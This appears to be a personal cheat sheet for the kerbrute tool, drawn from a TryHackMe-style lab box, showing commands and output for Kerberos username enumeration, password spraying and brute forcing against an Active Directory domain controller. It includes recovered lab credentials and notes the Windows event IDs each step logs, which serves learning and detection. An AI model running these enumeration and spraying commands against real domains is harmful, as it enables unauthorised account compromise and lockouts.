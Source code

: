 

obs! last updated 2019 - version 1.0.3! - Still mostly works though
(The date shown in the file date)

a quick way to enumerate users using a wordlist and asreproasting
	= checking is an account doesn't require preauth (so we can get the hash without authenticating - but here we just use it to enum, not actually check for a hash or even if it is a no preauth account)
(in the code we see get hash functionality though)

### Enumerating users

`~/tools/kerbrute userenum -d domain.com --dc 10.10.10.10 usernames.txt` 

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute userenum -d spookysec.local --dc 10.10.229.142 userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:19:37 >  Using KDC(s):
2025/07/04 19:19:37 >   10.10.229.142:88

2025/07/04 19:19:37 >  [+] VALID USERNAME:       james@spookysec.local
2025/07/04 19:19:38 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2025/07/04 19:19:39 >  [+] VALID USERNAME:       James@spookysec.local
2025/07/04 19:19:39 >  [+] VALID USERNAME:       robin@spookysec.local
2025/07/04 19:19:43 >  [+] VALID USERNAME:       darkstar@spookysec.local
2025/07/04 19:19:45 >  [+] VALID USERNAME:       administrator@spookysec.local
2025/07/04 19:19:49 >  [+] VALID USERNAME:       backup@spookysec.local
2025/07/04 19:19:51 >  [+] VALID USERNAME:       paradox@spookysec.local
2025/07/04 19:20:03 >  [+] VALID USERNAME:       JAMES@spookysec.local
2025/07/04 19:20:08 >  [+] VALID USERNAME:       Robin@spookysec.local
2025/07/04 19:20:32 >  [+] VALID USERNAME:       Administrator@spookysec.local
2025/07/04 19:21:21 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2025/07/04 19:21:37 >  [+] VALID USERNAME:       Paradox@spookysec.local
2025/07/04 19:22:30 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2025/07/04 19:22:45 >  [+] VALID USERNAME:       ori@spookysec.local
2025/07/04 19:23:18 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2025/07/04 19:25:13 >  Done! Tested 73317 usernames (16 valid) in 336.514 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)

### Password spray

`~/tools/kerbrute passwordspray -d domain.com --dc 10.10.10.10 domain_users.txt password123`

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute passwordspray -d spookysec.local --dc 10.10.229.142 users.txt management2005

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:42:01 >  Using KDC(s):
2025/07/04 19:42:01 >   10.10.229.142:88

2025/07/04 19:42:01 >  [+] VALID LOGIN:  svc-admin@spookysec.local:management2005
2025/07/04 19:42:01 >  Done! Tested 8 logins (1 successes) in 0.104 seconds
```

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute passwordspray -d spookysec.local --dc 10.10.229.142 users.txt Password123  

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:42:22 >  Using KDC(s):
2025/07/04 19:42:22 >   10.10.229.142:88

2025/07/04 19:42:22 >  Done! Tested 8 logins (0 successes) in 0.216 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)
[4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

### Brute force specific user

`~/tools/kerbrute bruteuser -d domain.com --dc 10.10.10.10 passwords.txt usernamehere`

```
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute bruteuser -d spookysec.local --dc 10.10.229.142 passwordlist.txt a-spooks    

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 20:02:44 >  Using KDC(s):
2025/07/04 20:02:44 >   10.10.229.142:88

2025/07/04 20:15:49 >  Done! Tested 70188 logins (0 successes) in 784.784 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)
[4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

### Brute Force with creds in file

`~/tools/kerbrute bruteforce -d domain.com --dc 10.10.10.10 creds-pairs.txt`
where cread-pairs.txt has the format user:pass, one pair per line

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute bruteforce -d spookysec.local --dc 10.10.229.142 user-pass.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 20:30:43 >  Using KDC(s):
2025/07/04 20:30:43 >   10.10.229.142:88

2025/07/04 20:30:43 >  [+] VALID LOGIN:  svc-admin@spookysec.local:management2005
2025/07/04 20:30:43 >  [+] VALID LOGIN:  backup@spookysec.local:backup2517860
2025/07/04 20:30:43 >  Done! Tested 2 logins (2 successes) in 0.304 seconds
```

Logged event(s):
[4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)
[4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)

### Help

```sh
┌──(kali㉿proxli)-[~/tools]
└─$ ./kerbrute -h             

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Usage:
  kerbrute [command]

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user´s password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

```sh
┌──(kali㉿proxli)-[~/tools]
└─$ ./kerbrute userenum --help

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

Will enumerate valid usernames from a list by constructing AS-REQs to requesting a TGT from the KDC.
If no domain controller is specified, the tool will attempt to look one up via DNS SRV records.
A full domain is required. This domain will be capitalized and used as the Kerberos realm when attempting the bruteforce.
Valid usernames will be displayed on stdout.

Usage:
  kerbrute userenum [flags] <username_wordlist>

Flags:
  -h, --help   help for userenum

Global Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors
```

